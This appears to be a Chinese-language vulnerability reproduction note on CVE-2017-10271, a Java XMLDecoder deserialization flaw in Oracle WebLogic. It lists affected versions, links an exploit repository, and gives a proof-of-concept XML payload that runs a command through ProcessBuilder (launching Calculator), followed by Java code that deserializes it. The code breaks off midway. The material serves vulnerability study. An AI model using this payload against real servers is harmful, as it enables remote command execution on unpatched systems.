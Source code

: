 (CVE-2017-10271)Java反序列化漏洞
================================

一、漏洞简介
------------

二、漏洞影响
------------

Oracle WebLogic Server10.3.6.0.0

Oracle WebLogic Server12.1.3.0.0

Oracle WebLogic Server12.2.1.1.0

Oracle WebLogic Server12.2.1.3.0

三、复现过程
------------

exp
---

<https://github.com/ianxtianxt/-CVE-2017-10271->

poc
---

xml 文件

    <?xml version="1.0" encoding="UTF-8"?>
    <java version="1.8.0_131" class="java.beans.XMLDecoder">
        <object class="java.lang.ProcessBuilder">
            <array class="java.lang.String" length="1">
                <void index="0">
                    <string>/Applications/Calculator.app/Contents/MacOS/Calculator</string>
                </void>
            </array>
            <void method="start" />
        </object>
    </java>

读取xml文件，进行反序列化执行命令代码：

    import java.io.BufferedInputStream;
    import java.io.FileInputStream;
    import java.io.FileNotFoundException;

    public class xmlrce {

        public static void main(String[] args) {
            // TODO Auto-generated method stub
            java.io.File file = new java.io.File("/Users/pirogue/IdeaProjects/weblogic/src/poc.xml");

            java.beans.XMLDecoder xd = null;
            try {
                xd = new java.beans.XMLDecoder(new BufferedInputStream(new FileInputStream(file)));
            } catch (FileNotFoundException e) {
                // TODO Auto-generated catch block
                e.printStackTrace();
            }

